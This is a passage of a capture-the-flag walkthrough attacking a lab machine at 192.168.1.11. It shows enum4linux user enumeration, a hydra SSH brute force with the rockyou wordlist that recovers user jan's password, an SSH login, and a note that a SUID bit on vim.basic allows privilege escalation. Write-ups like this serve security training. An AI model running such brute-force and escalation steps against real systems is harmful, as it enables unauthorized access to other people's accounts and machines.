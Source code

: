 
Next, If we run a enum4linux scan, we can see two users here 'jan' and 'kay'. 
```r
...

 ======================================================================= 
|    Users on 192.168.1.11 via RID cycling (RIDS: 500-550,1000-1050)
 ======================================================================= 
[I] Found new SID: S-1-22-1  
[I] Found new SID: S-1-5-21-2853212168-2008227510-3551253869
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User) 
S-1-22-1-1001 Unix User\jan (Local User)

...
```

## Initial Foothold

As we already know that user ‘J’ is using a weak password, so let's try running a brute force attack for user 'jan'. I will be using hydra for this.

```r
m1m3@kali:~$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.1.11 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 21:58:59 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task 
[DATA] attacking ssh://192.168.1.11:22/ 
[22][ssh] host: 192.168.1.11   login: jan   password: armando 
1 of 1 target successfully completed, 1 valid password found 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished.
```

Hurray! We got Jan's password! Now we can use ssh to login in the target machine.
```r
m1m3@kali:~$ ssh -t jan@192.168.1.11 '/bin/bash'

jan@192.168.1.11's password: 
jan@basic2:~$ id
uid=1001(jan) gid=1001(jan) groups=1001(jan)
jan@basic2:~$ 
```
Still we do not have root access, so we need to escalate our privileges.  There are two ways for that.

## Root by exploiting SUID Bits

If we look at SUID files, we can see that <b>/usr/bin/vim.basic</b> has a SUID set. This is unusual. This means that if we run the vim editor as a non-privileged user, we’ll be able to read and write all sorts of sensitive and critical files.
